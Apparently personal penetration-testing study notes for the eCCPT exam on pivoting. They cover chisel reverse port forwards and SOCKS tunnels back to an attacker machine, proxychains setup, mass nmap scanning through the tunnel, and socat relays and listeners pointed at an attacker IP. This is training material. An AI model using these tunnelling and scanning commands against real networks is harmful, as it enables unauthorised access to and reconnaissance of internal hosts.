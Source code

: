 
## Chisel
https://github.com/jpillora/chisel *looking for releasses*

**Important:** For eCCPT, it's recommended to use chisel v1.5

`$./chisel client 192.168.111.106:1234 R:80:10.10.0.129:80` *Portforwarding of 10.10.0.129 in port 80 to the attacker port 80, All this by attacker's 1234 port*
![[Pasted image 20240317152146.png]]
`$./chisel client 192.168.111.106:1234 R:socks`*for all ports, we use a tunnel socks5

By default with R:socks, the port given is 1080

![[Pasted image 20240317152257.png]]
#### Proxychains file configuration

For each new tunnel created, we need to updated **/etc/proxychains.conf**

![[Pasted image 20240317152056.png]]

#### Command usage with proxychains
##### Important
For nmap using proxychains we need to specify a TCP scan -sT
Not working....
![[Pasted image 20240317152608.png]] `$proxychains nmap -sT --top-ports 500 -open -T5  -v -n 10.10.2.131 2>/dev/null` *sterr sent to /dev/null*

Since it takes too long, we can use xargs to work with threads:

`$seq 1 65535 | xargs -P 500 -I {} proxychains nmap -sT -Pn -p{} -open -T5  -v -n 10.10.2.131 2>&1 | grep "tcp open"` 

We can follow how the scan is going by verifying the process:

`$ps -faux | grep nmap | tail -n 2 | head -n 1`
>blinds    274432  0.0  0.1  99232 11596 pts/3    Rl+  21:52   0:00      |   \_ nmap -sT -Pn -p48832 -open -T5 -v -n 10.10.2.131

![[Pasted image 20240317155644.png]]

### Web proxy configuration
We use SOCKS5 proxy type, we send all communications to localhost which by using proxychains will send to the specified port.
![[Pasted image 20240317160015.png]]

# Socat

Uploading file:

`$scp socat dimitri@172.16.1.129:/tmp/socat`

`./socat TCP-LISTEN 4444,fork TCP:172.16.1.19:80` *172.16.1.19 is the attacker IP and the port listening*

## Socat as listening
Same function as *nc -lvnp* 

`socat TCP-LISTEN:5555 stdout`
